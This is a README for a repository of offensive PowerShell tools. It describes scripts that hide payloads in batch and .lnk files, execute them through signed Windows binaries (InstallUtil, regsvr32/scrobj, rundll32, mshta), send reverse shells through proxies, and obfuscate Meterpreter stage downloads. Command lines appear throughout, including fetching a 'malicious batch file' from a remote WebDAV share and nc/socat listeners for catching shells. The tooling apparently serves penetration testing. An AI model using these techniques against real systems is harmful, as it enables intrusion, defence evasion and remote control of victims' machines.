 PowerShell Scripts
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

This repository aims at publishing some of PowerShell scripts. No rocket science, just a few scripts I created either to learn PowerShell or to fit basic needs in my security veil.

Invoke-EmbedInBatch
----------------
Inspired by @xorrior, this scripts embeds and hide any type of payload within a batch file and then executes it given a command line specified as an argument. It proposes two different methods for achieving this trick, explained in the script header.
Examples:
```
Invoke-EmbedInBatch -PayloadPath installUtil.dll -FinalCommandLine "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U _payload_"
Invoke-EmbedInBatch -PayloadPath regsvr32.sct -FinalCommandLine "regsvr32.exe /s /u /i:_payload_ scrobj.dll"
Invoke-EmbedInBatch -PayloadPath standard.dll -Method 2 -FinalCommandLine "rundll32.exe _payload_,entrypoint"
Invoke-EmbedInBatch -PayloadPath payload.hta -FinalCommandLine "mshta.exe _payload_"
Invoke-EmbedInBatch -PayloadPath payload.exe -FinalCommandLine "_payload_"
```

The malicious batch file can then be executed locally on a target system, or even downloaded from a remote location with this command line:
`cmd.exe /k < \\webdavserver\folder\malicious_batch.txt`

Invoke-HideFileInLNK
----------------
This script creates a specifically forged link file (.lnk) to embed any type of file in it, as per the technique described here:
https://www.phrozen.io/page/shortcuts-as-entry-points-for-malware-part-3

The embedded file is first extracted from the link file using an inline VBS script, and the file is then called
either directly (if it's an executable or a script), or throuh a so called "Final Command". See examples section from the Invoke-HideFileInLNK function.

Invoke-SendReverseShell
----------------
This script sends a shell to a destination host (reverse shell). This is done:
  - on one side by spawning a cmd.exe child process and redirecting its standard Input, Output and Error streams
  - on the other side by either:
    - directly opening a TCP socket to the remote host, or
    - connecting through a proxy manually specified or by using the system's default one

When using a proxy to connect to the remote host, the proxy must support the CONNECT method and allow it to the destination port. If the destination port doesn't seem allowed by the proxy, try to bind your listener on port 443 as it's very likely that the proxy will allow the CONNECT method at least on that port.

The remote host simply has to listen on a TCP socket, for example:
  - With netcat: `# nc -l -p <any_port>`
  - With socat: `# socat TCP-L:<any_port>,fork,reuseaddr -`


proxyTunnel.ps1
----------------
This script creates a TCP tunnel towards a destination server through the system's default HTTP proxy, automatically handling upstream proxy authentication along the way if ever required. Tested OK with PowerShell v4.

A typical use would be for a client application that either can't handle connection through an HTTP proxy, or that doesn't support some sort of proxy authentication (eg: NTLM). So you would create a tunnel to the final destination (aka 'Origin Server') by having this script listening on a local network socket, and point your application to this local socket instead of the origin server. Well, basically a TCP tunnel...

Example:
```
powershell .\proxyTunnel.ps1 -bindPort 4444 -destHost myserver.example.com -destPort 22
```
From there, an SSH connection to 127.0.0.1:4444 will be tunneled, through the corporate proxy, to myserver.example.com:22

The scripts makes use of two hacks that might not work in future versions of PowerShell:
1. Forces the "CONNECT" method in the HttpWebRequest object, which is not officially allowed
2. Performs some reflective inspection in order to take control back over the underlying network stream once the connection is established (by default, the object is private)

I don't even understand why this is not made possible "by default" with the .Net API...

proxyMeterpreterHideout.ps1
----------------
This script is the client side script for a meterpreter stage download obfuscation technique for a reverse_winhttp payload.
Beware it does *NOT* work with the reverse_winhttpS payload.

Further explanations in the script itself.

![bitcoin](https://dl.dropboxusercontent.com/s/imckco5cg0llfla/bitcoin-icon.png?dl=0) Like these scripts ? Tip me with bitcoins !
![address](https://dl.dropboxusercontent.com/s/9bd5p45xmqz72vw/bc_tipping_address.png?dl=0)